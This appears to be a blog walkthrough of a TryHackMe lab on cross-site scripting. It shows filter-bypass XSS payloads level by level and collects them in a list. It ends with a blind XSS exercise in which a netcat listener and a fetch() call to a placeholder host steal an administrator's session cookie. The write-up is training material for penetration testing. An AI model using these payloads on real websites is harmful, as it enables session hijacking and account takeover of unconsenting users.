 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```

#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: XSS (Cross-Site Scripting) 

### Perfecting your Payload 

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.

![img]({{site.url}}/images/2023-09-23-twelfth/                                                      Screenshot%202023-09-22%20at%2018.40.37.png)


We can put in 

`<script>alert('THM');</script>`
in the form: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 


">script>alert('THM');</script>


The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.23.png)

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 


</textarea><script>alert('THM');</script>`


The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

---

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 

`';alert('THM');//`

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping filters

Level 5 looks similar to level 2 on the surface. However, executing  `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 


<sscriptcript>alert('THM');</sscriptcript>


The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.13.53.png)
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.14.10.png)


---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---

### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.47.png)

Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.58.21.png)

---